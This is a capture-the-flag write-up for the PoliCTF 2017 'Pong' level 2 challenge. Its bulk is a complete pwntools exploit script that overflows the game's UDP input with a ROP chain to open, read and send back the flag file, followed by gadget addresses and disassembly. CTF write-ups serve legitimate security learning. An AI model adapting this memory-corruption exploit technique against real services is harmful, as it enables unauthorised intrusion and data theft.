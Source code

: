 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl2)"
date:   2017-07-09 21:17
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```

> Ready for another match? :P

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong2.tgz)

It is basically the same binary as [level1](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true), but without the `secret` function. 

This time we did ROP to achieve what the removed function was offering. 

We used ROPgadget to lookup for meaningful gadgets to achieve our intent. 

We found gadgets to achieve a call to `open` then `read` (both of them had a PLT entry) and finally we used `sendMessage` to have the flag content printed back to the client socket.

 

```

from pwn import *
import sys

def start_game(level, local=None):
    log.info("local: %s" % local)
    if str(local) == str("local"):
        p = remote('localhost', 31337)
    else:
        p = remote('pong.chall.polictf.it', 31337)
    p.sendline(level)
    p.recvuntil("OK ")
    s = p.recvline()
    c_port = int(s.strip())
    return c_port



def play_pong(port, local=None):
    print "connecting to pong UDP server at %d" % port
    if str(local) == str('local'):
        p = remote('localhost', port, typ="udp")
    else:
        p = remote('pong.chall.polictf.it', port, typ="udp")
    return p



def send_to_pong(p, pay, stop=None): 
    p.sendline(pay)
    s = None
    if stop:
        s = p.recv(timeout=5)
    return s



def prepare():
    port = start_game("Lv2", sys.argv[1])
    p = play_pong(port, sys.argv[1])
    return p



def payloadgen():
    # read(open("./flag2", O_RDONLY), buf, 256)
    # sendMessage(buf)
    pop_rdi = p64(0x406938) # pop rdi
    pop_rsi = p64(0x404717) # pod rsi 
    pop_rdx = p64(0x405c65) # pop rdx ; pop ; rsp+8 ; ret
    mov_rdi = p64(0x40df60) # 0x40df60 mov qword ptr [rdi], rdx ; ret
    buf = p64(0x61F560) # buffer (field of zeros)
    RDONLY = p64(0x0)
    
    pay = "1" + "|" + "2" * 22
    pay += pop_rdi
    pay += buf

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash
    
    pay += pop_rdx
    pay += "./flag\x00\x00"
    pay += pop_rsi #trash
    pay += pop_rsi #trash

    pay += mov_rdi
    pay += pop_rsi
    pay += RDONLY

    #0x0000000000416add : pop rax ; pop rbx ; pop rbp ; pop r12 ; ret
    pay += p64(0x0000000000416add)
    pay += p64(elf.plt['open'])
    pay += p64(0x0)
    pay += p64(0x0)
    pay += p64(0x0)

    #0x0000000000402e48 : call rax
    pay += p64(0x0000000000402e48)
    pay += p64(0x0)

    # mov rdi, rax
    pay += pop_rdi
    pay += p64(0x9)
    pay += pop_rsi
    pay += buf
    pay += pop_rdx
    pay += p64(0x100) # len
    pay += p64(0x100)
    pay += p64(0x100)
    pay += p64(elf.plt['read'])
    
    pay += pop_rdi
    pay += buf
    pay += p64(0x404526) # sendMessage
    return pay


elf = ELF('./level2/level2')
p = prepare()
raw_input("stop")
print("Sending reset")

pay = "-1|2"
send_to_pong(p, pay, False)
pay = payloadgen()
for x in range(1):
    log.info("SENDING FATAL PONG")
    send_to_pong(p, pay, False)

for x in range(10):
    print(p.recv())


'''

0x0000000000406938 : pop rdi ; ret

0x0000000000406936 : pop rsi ; pop r15 ; ret

0x0000000000404717 : pop rsi ; ret

0x0000000000405c65 : pop rdx ; pop rcx ; add rsp, 8 ; ret

0x0000000000407546 : push rax ; ret

00000000004036a0 <open@plt>:

0000000000403290 <read@plt>:

.text:0000000000404526 sendMessage     proc near           ; CODE XREF: broadcast+69p

.text:0000000000404526

.text:0000000000404526 mex         = qword ptr -18h

.text:0000000000404526

.text:0000000000404526         push    rbp

.text:0000000000404527         mov     rbp, rsp

.text:000000000040452A         push    rbx

.text:000000000040452B         sub     rsp, 18h

.text:000000000040452F         mov     [rbp+mex], rdi



'''

```

